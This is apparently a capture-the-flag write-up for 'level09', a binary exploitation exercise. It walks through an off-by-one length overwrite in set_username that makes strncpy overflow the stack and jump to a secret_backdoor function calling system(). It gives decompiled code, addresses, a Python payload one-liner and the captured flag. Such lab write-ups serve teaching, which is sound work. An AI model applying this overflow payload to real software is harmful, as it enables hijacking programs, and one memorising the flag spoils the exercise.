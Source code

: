 # level9

## Overview
In this binary, there are two user inputs. The first input determines the size of the content to be copied, and the second input is the content that gets copied to a specific address. We exploit a buffer overflow vulnerability to alter the control flow and execute our desired function.


## Steps
### secret_backdoor
```c
int secret_backdoor()
{
  char s[128]; // [rsp+0h] [rbp-80h] BYREF

  fgets(s, 128, stdin);
  return system(s);
}
```
```
0x55555555488c <secret_backdoor>
```
The function we want to execute.

### set_username
```
  fgets(s, 128, stdin);
  for ( i = 0; i <= 40 && s[i]; ++i )
    *(_BYTE *)(a1 + i + 140) = s[i];
```
1. It gets a line from input to address: `0x7fffffffe420` = `-0x90(%rbp)`
2. Then, copy 41 bytes to `a1+41`.

- 40 'a' characters
- 1 byte that sets the length for strncpy in set_msg (we can use 0xff to ensure a large copy)

### set_msg
```
  fgets(s, 1024, stdin);
  return strncpy((char *)a1, s, *(int *)(a1 + 180));
```
It gets a line from input to address: `0x7fffffffe0b0` = `-0x400(%rbp)`

### strncpy
dest: `0xffffe4c0`
src:  `s` from `fgets`
len:  41th character of input of `set_username`. It can be `255` bytes max.

I found offset by testing. It's 200.

## Payload
```
python -c 'print("a"*40 + "\xff\n" +"0a1a2a3a4a5a6a7a8a9a"*10 + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1])' > /tmp/09
cat /tmp/09 - | ./level09
```

## Flag
```
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
